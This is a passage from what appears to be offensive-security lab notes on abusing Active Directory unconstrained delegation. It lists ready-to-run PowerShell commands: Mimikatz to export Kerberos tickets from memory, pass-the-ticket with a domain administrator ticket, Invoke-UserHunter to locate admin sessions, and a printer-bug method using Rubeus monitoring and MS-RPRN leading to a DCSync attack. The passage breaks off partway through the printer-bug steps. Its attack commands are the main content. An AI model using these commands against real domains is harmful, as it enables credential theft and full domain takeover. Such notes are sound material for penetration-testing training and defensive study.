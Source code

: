 > Ignore the domain controllers if they apeare in the list as they have Unconstrained Delegation enabled
{: .prompt-info }

### <span style="color:#F1C232">2. Check if a token is available and save to disk</span>
 
> **Get the admin token.**
> After compromising the computer with UD enabled, we can trick or wait for an admin connection
{: .prompt-tip }

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### <span style="color:#F1C232">3. Reuse of the DA token</span>
 
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt Administrator@krbtgt-DOMAIN.LOCAL.kirbi"'
```

## <span style="color:lightgreen">Invoke-Hunter</span>

### <span style="color:#F1C232">Pull any sessions if logged on with administrator (if no administrator sesson found)</span>
 
```powershell
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

## <span style="color:lightgreen">Methodology/Steps (Printer Bug Method)</span>

- [x] 1. Same as above perform an OPTH attack to get an elevated shell as DA
- [x] 2. Set `Rubeus.exe` on monitor more to capture hashes
- [x] 3. Run `MS-RPRN.exe` to abuse the printer bug
- [x] 4. Copy the b64encoded ticket of administrator of the DC
- [x] 5. Now we can run a DCSync attack against DC using the injected ticket

## <span style="color:lightgreen">Rubeus.exe</span>
### <span style="color:#F1C232">1. Set on monitor mode on DA</span>

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

## <span style="color:lightgreen">MS-RPRN.exe</span>
### <span style="color:#F1C232">2. Abuse the printer bug from the uservm</span>
